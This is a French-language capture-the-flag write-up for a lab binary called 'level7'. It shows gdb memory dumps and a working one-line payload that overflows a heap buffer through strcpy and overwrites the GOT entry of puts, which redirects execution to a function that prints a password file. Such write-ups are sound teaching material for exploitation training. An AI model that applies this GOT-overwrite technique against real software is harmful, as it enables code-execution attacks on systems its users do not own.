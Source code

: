 # level7 - GOT Overwrite via Heap Exploitation

## Analyse du Programme

**Structure Mémoire**
- 4 allocations `malloc(8)` successives
- Deux paires de blocs liés:
  - Premier bloc (`0x804a008`) pointe vers buffer1 (`0x804a018`)
  - Deuxième bloc (`0x804a028`) pointe vers buffer2 (`0x804a038`)

```nasm
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x41414141      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x41414141      0x00000000      0x00000000      0x00020fc1
```

- Adresse de saut dans la GOT de `puts`: `0x08049928`

```nasm
(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:        jmp    *0x8049928
```
- Adresse de la fonction `m()`: `0x080484f4`

**Comportement**
- Le programme copie les arguments dans les buffers avec `strcpy()`
- Lecture du fichier `.pass` avec `fopen()` et `fgets()`
- Appel à `puts()` pour afficher un message
- On veut faire un call a la fonction `m()` pour `printf()` le contenu du fichier .pass

## Exploitation

**Stratégie**
- Utiliser le premier `strcpy()` pour écraser un pointeur avec l'adresse GOT de `puts`
- Utiliser le second `strcpy()` pour écrire l'adresse de `m()` dans la GOT
- Rediriger ainsi l'exécution de `puts()` vers `m()`

**Commande d'Exploitation**
```bash
./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

Le payload:
1. Premier argument: 20 bytes de padding + adresse jmp GOT de `puts`
2. Second argument: adresse de la fonction `m()`

Cette exploitation redirige l'appel à `puts()` vers la fonction `m()`, permettant l'affichage du contenu du fichier `.pass`.
